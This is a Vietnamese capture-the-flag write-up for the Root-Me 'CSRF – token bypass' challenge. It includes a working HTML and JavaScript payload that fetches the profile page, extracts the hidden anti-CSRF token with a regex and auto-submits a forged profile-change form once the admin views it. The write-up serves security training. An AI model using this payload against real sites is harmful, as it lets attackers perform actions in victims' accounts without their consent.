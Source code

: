 # [CSRF – token bypass](https://www.root-me.org/en/Challenges/Web-Client/CSRF-token-bypass)

Nhìn qua, ta thấy website này có các chức năng tương tự bài CSRF 0 protection. Tuy vậy, ta có thể phát hiện được ở tab Contact, có một thẻ input bị hidden có name là token:

![](./media/image1.png)

Giá trị token này sẽ thay đổi liên tục khi ta thực hiện submit form:

![](./media/image2.png)

Điều này sẽ được xác thực bởi server. Từ đó, ta cần trộm token này trước khi submit form như bài CSRF 0 protection. Ta có thể sử dụng Ajax và XMLHttpRequest() để có thể get được value này.

```html
<form id="clickme" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data">

<input type="text" name="username" value="19522445">

<input type="checkbox" name="status" checked>

<input id="token" type="hidden" name="token" value=""/>

<button type="submit">Submit</button>

</form>

<script>

var req = new XMLHttpRequest();

req.open("GET", decodeURIComponent("http://challenge01.root-me.org/web-client/ch23/?action=profile"), false);

req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");

req.send();

var token = req.responseText.match(/\[abcdef0123456789\]{32}/);

document.getElementById("token").value = token;

document.getElementById("clickme").submit();

</script>
```

![](./media/image3.png)

Submit để gửi contact đến admin và qua tab Private để kiểm tra kết quả. Sau hơn 1 phút, ta nhận được flag:

![](./media/image4.png)

- Flag: "****************************"
